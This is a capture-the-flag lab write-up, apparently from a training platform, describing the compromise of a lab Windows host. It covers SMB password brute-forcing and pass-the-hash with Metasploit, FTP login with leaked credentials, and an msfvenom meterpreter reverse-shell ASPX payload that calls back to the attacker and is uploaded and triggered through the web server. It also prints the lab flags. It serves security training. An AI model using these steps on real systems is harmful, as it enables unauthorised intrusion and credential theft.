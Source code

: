 
---

# Lab Environment

A target machine is accessible at **target.ine.local**. Identify the services and capure the flags.

- **Flag 1:** Looks like smb user **tom** has not changed his password from a very long time.
- **Flag 2:** Using the NTLM hash list discovered in the previous challenge, can you compromise the smb user **nancy**?
- **Flag 3:** I wonder what the hint found in the previous challenge be useful for!
- **Flag 4:** Can you compromise the target machine and retrieve the **C://flag4.txt** file?

The following wordlist will be useful:

- /usr/share/wordlists/metasploit/unix_passwords.txt

# Tools

- Metasploit
- Nmap
- smbmap
- Firefox

---
We will start with our Nmap scan and import the scan results to MSF: `nmap -Pn -A -v target.ine.local -oX nmap`

We find multiple open ports but the one that we are more insteresetd in are: FTP/21, HTTP/80, and SMB/445

Since the first flag telling us the username and the service, we will use MSF module: "smb_login" to brute-force the user tom.

We get the password:"felipe"

Now, we set the smb_pass option to '' and we set the smbpass to felipe. To get an smb session, we set the option CreateSession to true.

After we get a session, we can list the shares by: `shares` and to interact with shares: `shares -i (Share ID)`

The first flag is going to be in:"HRDocuments"

Also, we will find a list of NTLM hashes in that share, we download both files by using command download.



**First flag:** 0edeb7b848224ccb9e03f6118f2c9fdc

---
To get the second flag, we will use the same MSF module we used before but this time we will set the username to nancy and the pass_file to the NTLM hashes file we got earlier.

We get this hash that would authenticate with nancy username: "aad3b435b51404eeaad3b435b51404ee:b3ddea4b4b957f3e037af75cfe5"

Again, we will create a SMB session. 

Second flag is going to be in: "ITResources" share with a hint for the third flag.

We download both files.

**Second flag:** 2d3236107fb44b6cba8583fcfd8ab5ae

---

The hint.txt content reveals the credentials for "david" user with password: "omnitrix_9901"

We will try to login to smb service using these credentials, but we can't.

We will try to login using FTP: `ftp david@`10.0.24.189

We get the third flag.

**Third flag:** d34b5f6f99e742a7b671d55db82049b0

---

Since we have access to where the files of the website running on the target machine is stored, we will create a reverse shell payload using MSFVenom.

Since we know the target machine is Windows: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.43.10 LPORT=1234 -f aspx> payload.aspx`

We will upload the payload file that we created to FTP using "put command"

Now, we will use "multi/handler" MSF module and set the payload to the same payload we used with MSFVenom with the same LPORT and LHOST options.

We will go to the target URL and put next to it:"/payload.aspx"

This will activate our payload and we will get a meterpreter session on the target host.

Forth flag can found in: "C:\flag4.txt"

**Forth flag:** 82dbe39e495243c2887577d66c0b9fcc





